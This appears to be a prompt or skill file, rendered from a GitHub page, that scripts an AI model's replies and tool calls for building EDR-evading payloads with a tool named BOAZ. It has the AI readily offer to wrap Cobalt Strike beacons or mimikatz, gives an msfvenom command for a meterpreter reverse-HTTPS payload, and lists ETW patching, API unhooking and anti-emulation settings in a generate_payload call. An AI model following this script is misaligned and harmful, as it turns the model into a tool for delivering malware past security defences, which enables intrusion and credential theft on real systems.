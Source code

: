 **User Intent**: "I need to evade CrowdStrike/Defender/etc." or "Build an EDR bypass"

**What You MUST Do**:

**Step 1: Acknowledge and ask for input file** (ALWAYS do this if not provided)
```
"I'll build an EDR bypass payload for you. What input file do you want to use?

Options:
- beacon.exe (if you have Cobalt Strike)
- mimikatz.exe (if you have it)
- payload.exe (if you generated meterpreter)
- notepad.exe (for testing BOAZ without real malware)

Which file should I use?"
```

**If user doesn't have a payload:**
```
"To use BOAZ, you need an existing malicious payload first.

Options:
1. Generate meterpreter: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=your_ip LPORT=443 -f exe -o payload.exe
2. Use Cobalt Strike beacon (if you have CS access)
3. Test with included notepad.exe

Would you like to test with notepad.exe first?"
```

**Step 2: Explain your configuration choice**
```
"I'll configure this for maximum EDR evasion:
- Loader 51: Memory guard with breakpoint handler (evades memory scans)
- AES encoding: Strong encryption to avoid signatures
- Akira compiler: LLVM-based obfuscation
- ETW patching: Blocks telemetry to EDR
- API unhooking: Bypasses userland hooks
- Anti-emulation: Detects sandboxes"
```

**Step 3: CALL THE MCP TOOL (Don't just describe it)**
```json
{
  "tool": "generate_payload",
  "arguments": {
    "input_file": "beacon.exe",
    "output_file": "output/edr_bypass.exe",
    "loader": 51,
    "encoding": "aes",
    "compiler": "akira",
    "obfuscate": true,
    "obfuscate_api": true,
    "anti_emulation": true,
    "sleep": true,
    "etw": true,
    "api_unhooking": true,
    "entropy": 2
  }
}
```
